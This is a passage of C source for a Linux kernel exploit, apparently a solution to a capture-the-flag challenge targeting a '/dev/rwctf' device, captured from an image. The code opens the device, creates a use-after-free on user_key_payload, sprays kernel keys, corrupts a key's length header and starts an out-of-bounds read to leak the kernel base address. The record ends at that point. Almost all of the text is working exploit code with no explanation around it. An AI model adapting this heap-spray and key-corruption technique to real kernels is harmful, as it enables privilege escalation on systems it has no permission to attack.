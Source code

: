 ```c
}

void del(uint32_t idx)
{
    struct node n = {
        .idx = idx,
    };

    ioctl(dev_fd, 0xC0DECAFE, &n);
}

/**
 * Exploit stage
 */

int main(int argc, char **argv, char **envp)
{
    size_t *buf, pipe_buffer_addr;
    int key_id[KEY_SPRAY_NUM], victim_key_idx = -1, pipe_key_id;
    char desciption[0x100];
    int pipe_fd[2];
    int retval;

    /* fundamental works */
    bind_core(0);
    save_status();

    buf = malloc(sizeof(size_t) * 0x4000);

    dev_fd = open("/dev/rwctf", O_RDONLY);
    if (dev_fd < 0) {
        err_exit("FAILED to open the /dev/rwctf file!");
    }

    /* construct UAF on user_key_payload */
    puts("[*] construct UAF obj and spray keys...");
    alloc(0, PIPE_INODE_INFO_SZ, buf);
    del(0);

    for (int i = 0; i < KEY_SPRAY_NUM; i++) {
        snprintf(desciption, 0x100, "%s%d", "arttnba", i);
        key_id[i] = key_alloc(desciption, buf, PIPE_INODE_INFO_SZ - 0x18);
        if (key_id[i] < 0) {
            printf("[x] failed to alloc %d key!\n", i);
            err_exit("FAILED to add_key()!");
        }
    }

    del(0);

    /* corrupt user_key_payload's header */
    puts("[*] corrupting user_key_payload...");

    buf[0] = 0;
    buf[1] = 0;
    buf[2] = 0x2000;

    for (int i = 0; i < (KEY_SPRAY_NUM * 2); i++) {
        alloc(0, PIPE_INODE_INFO_SZ, buf);
    }

    /* check for oob-read and leak kernel base */
    puts("[*] try to make an OOB-read...");
```